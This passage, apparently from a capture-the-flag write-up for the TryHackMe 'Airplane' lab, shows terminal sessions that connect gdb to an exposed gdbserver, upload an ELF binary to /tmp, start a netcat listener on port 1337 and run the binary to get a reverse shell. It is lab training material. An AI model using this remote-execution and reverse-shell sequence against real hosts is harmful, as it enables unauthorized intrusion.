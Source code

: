 ```bash
                                                                                                                              
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Medium/Airplane]
└─$ chmod +x *.elf
                                                        
```

Now we run it :

```bash
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Medium/Airplane]
└─$ gdb binary.elf 
GNU gdb (Debian 16.3-1) 16.3
Copyright (C) 2024 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from binary.elf...
(No debugging symbols found in binary.elf)

(gdb) target extended-remote airplane.thm:6048

(gdb) remote put binary.elf /tmp/binary.elf

```

## Netcat

Now the listener with [[Netcat]] :

```bash
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Medium/Airplane]
└─$ nc -lvnp 1337    
listening on [any] 1337 ...

```

Now we run it :

```bash
(gdb) set remote exec-file /tmp/binary.elf
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program:  
Reading /tmp/binary.elf from remote target...
Reading /tmp/binary.elf from remote target...
Reading symbols from target:/tmp/binary.elf...
(No debugging symbols found in target:/tmp/binary.elf)
[Detaching after fork from child process 2934]
[Inferior 1 (process 2933) exited normally]
```
